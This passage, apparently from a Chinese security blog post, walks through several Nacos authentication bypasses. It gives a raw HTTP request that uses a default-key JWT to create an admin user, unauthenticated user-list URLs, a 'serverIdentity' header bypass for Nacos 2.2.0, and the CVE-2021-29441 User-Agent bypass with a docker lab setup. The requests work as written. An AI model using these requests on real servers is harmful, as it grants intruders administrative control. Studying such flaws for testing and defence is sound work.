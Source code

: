 4.利用默认密钥，添加hellonacos用户密码为hellonacos，创建成功

POST /nacos/v1/auth/users HTTP/1.1

Host: {{Hostname}}

User-Agent: Mozilla/5.0

Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTY3ODg5OTkwOX0.Di28cDY76JCvTMsgiim12c4pukjUuoBz6j6dstUKO7s

Accept-Encoding: gzip, deflate

Connection: close

Upgrade-Insecure-Requests: 1

If-Modified-Since: Wed, 15 Feb 2023 10:45:10 GMT

Content-Type: application/x-www-form-urlencoded

Content-Length: 39

username=hellonacos&amp;password=hellonacos

##### 二、Nacos默认配置未授权访问漏洞

http://10.10.84.207:8848/nacos/v1/auth/users?pageNo=1&amp;pageSize=9&amp;search=accurate&amp;accessToken

http://your_ip:8848/nacos/v1/auth/users/?pageNo=1&amp;pageSize=9

<img src="https://img-blog.csdnimg.cn/img_convert/be7d09d834ef0edf02212dd92b36d8db.jpeg" alt="">

<img src="https://img-blog.csdnimg.cn/img_convert/559ba379d9643ee8878a9af169890a0c.jpeg" alt="">

##### 三、 Nacos2.2.0权限绕过

Header中添加serverIdentity: security能直接绕过身份验证查看用户列表

<img src="https://img-blog.csdnimg.cn/img_convert/9b24b341f42b0cff76ddcd5710cc99d5.jpeg" alt="">

如果没有或者不对应则返回403

<img src="https://img-blog.csdnimg.cn/img_convert/8d37530c263e05aa7d9111398160b752.jpeg" alt="">

##### 四、Nacos1.x.x版本User-Agent权限绕过((CVE-2021-29441)

##### 0x01 漏洞描述

在 1.4.1 及更早版本的 Nacos 中，当配置为使用身份验证 (Dnacos.core.auth.enabled=true) 时，会使用 AuthFilter servlet 过滤器来强制实施身份验证，从而跳过身份验证检查。此机制依赖于用户代理 HTTP 标头，因此很容易被欺骗。此问题可能允许任何用户在 Nacos 服务器上执行任何管理任务。

##### 0x02 环境搭建

docker run -d -p 8848:8848 hglight/cve-2021-29441

##### 0x03 漏洞影响
